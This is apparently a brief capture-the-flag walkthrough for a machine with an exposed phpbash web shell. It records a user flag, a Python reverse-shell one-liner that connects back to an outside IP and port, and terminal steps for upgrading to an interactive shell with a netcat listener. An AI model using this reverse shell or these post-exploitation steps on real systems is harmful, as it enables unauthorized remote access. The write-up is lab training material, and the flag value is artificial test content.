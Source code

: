 ## phpshell.php

* clicking on `phpbash.php` brings us to a web shell
* user.txt - `2c281f318555dbc1b856957c7147bfc1`
* unfortunately this is not a fully interactive shell
* trying to connect back to netcat does not work using `bash -i`
* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## Shell upgrade
* `python -c 'import pty;pty.spawn("/bin/bash")'`
* `ctrl + z`
* `stty raw -echo; fg`
* `reset` 
```
[1]  + continued  nc -nlvp 9000
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
```


